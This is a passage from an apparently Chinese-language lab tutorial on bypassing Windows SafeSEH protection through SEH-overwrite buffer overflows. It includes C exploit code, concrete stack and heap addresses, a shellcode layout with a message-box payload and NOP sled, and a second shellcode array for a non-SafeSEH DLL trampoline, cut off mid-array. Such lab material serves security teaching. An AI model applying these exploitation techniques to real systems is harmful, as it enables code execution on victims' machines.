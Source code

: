 void main()
{
	char * buf = (char *)malloc(500);
	//__asm int 3
	strcpy(buf, shellcode);
	test(shellcode);
}
</code></pre>

#### 3.2 实验内容

<b>实验思路：</b>
1. 首先从堆中申请500字节的空间，用来存放shellcode
2. 函数test存在典型的溢出，通过向str复制超长字符串造成str溢出，进而覆盖程序的SEH信息
3. 用shellcode在堆中的起始位置覆盖异常处理函数地址，然后通过制造除0异常，将程序转入异常处理，进而跳转到堆中的shellcode执行

<b>实验环境：</b>

||推荐使用环境|备注|
|--|--|--|
|操作系统|Windows XP SP3| DEP关闭|
|编译器|Visual Studio 2008| |
|编译选项|<font color=#f00>禁用优化选项</font>| |
|build版本|release版本| |

<b>得到的数据</b>
申请的堆空间起始地址:0x003928B8
复制给str后的栈起始地址：0x0012FE9C
离栈顶最近的SEH处理函数句柄：0x0012FFB0+4

<b>于是得到shellcode：</b>
1. 168字节的谈对对话框机器码
2. 112 * "\x90"
3. 堆起始地址: 0x003928B8

### 4. 利用未启用SafeSEH模块绕过SafeSEH

<font color=#f00>如果模块未启用SafeSEH，并且模块不是仅包含中间语言IL，这个异常处理就可以被执行。所以若能找到一个不启用SafeSEH的dll，然后加载之后通过它里面的指令作为跳板实现SafeSEH的绕过。</font>

#### 4.1 实验代码

<pre><code>
#include "stdafx.h"
#include "string.h"
#include "windows.h"

char shellcode[] = 
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x68"
	"\xf1\x21\x12\x11"
	"\x90\x90\x90\x68\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"